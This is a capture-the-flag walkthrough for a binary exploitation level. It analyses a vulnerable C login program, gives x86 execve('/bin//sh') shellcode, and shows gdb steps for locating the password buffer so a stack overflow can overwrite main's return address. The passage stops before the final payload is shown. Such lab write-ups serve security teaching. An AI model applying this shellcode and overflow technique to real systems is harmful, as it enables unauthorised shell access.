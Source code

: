 The code then calls the `verify_user_pass` function which checks is the username provided by the user is `admin` and in all cases print `"nope, incorrect password...\n"`, then returns
```c
verify_user_pass(password);
puts("nope, incorrect password...\n");
```
```c
int verify_user_pass(char *password)
{
	return memcmp(password, "admin", 5) != 0;
}
```

No shell is executed within this code, we will have to inject a shellcode which executes a shell.

Here is a simple x86 shellcode that calls `execve("/bin//sh")`
We need to add a `/` to prevent the `\x00` (a hole in the 4 bytes groups) character to be added to the shellcode causing the execution to be terminated
```asm
xor eax, eax  	#Empties the register used by syscalls (execve is a syscall)
xor ecx, ecx
xor edx, edx
xor edi, edi
xor esi, esi
                  
push edx		#Pushing '\0' onto the stack
push 0x68732f2f	#Pushing 'hs//' onto the stack
push 0x6e69622f	#Pushing 'nib/' onto the stack
                  
mov ebx, esp	#Putting the stack top address inside ebx (first parameter)	
mov al, 0x0b	#Putting execve (0x0b hex/11 dec) inside al
int 0x80		#Executing the syscall
```

We have to store and execute this shellcode, `NX` being disabled we can store it and execute it in one of the two stack buffers (`username` and `password`)

Luckily the `password` buffer is declared at top of the main function which means that overflowing this buffer will write on the return address of the main function.

We have to store the shellcode inside the `password` buffer, get the address of the `password` buffer and rewrite the return address of the `main` function with it.

Using `gdb` we can get the address of the `password` buffer: `0xffffd6cc`
```
0x08048580 <+176>:   call   0x80484a3 <verify_user_pass>
```
```
(gdb) b*0x08048580
Breakpoint 1 at 0x8048580
(gdb) r < <(echo dat_wil; echo P4SSW0RD)
Starting program: /home/users/level01/level01 < <(echo dat_wil; echo P4SSW0RD)
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:

Breakpoint 1, 0x08048580 in main ()
```
```
(gdb) info reg
eax		0xffffd6cc	-10548
(gdb) x/s 0xffffd6cc
0xffffd6cc:      "P4SSW0RD\n"
```
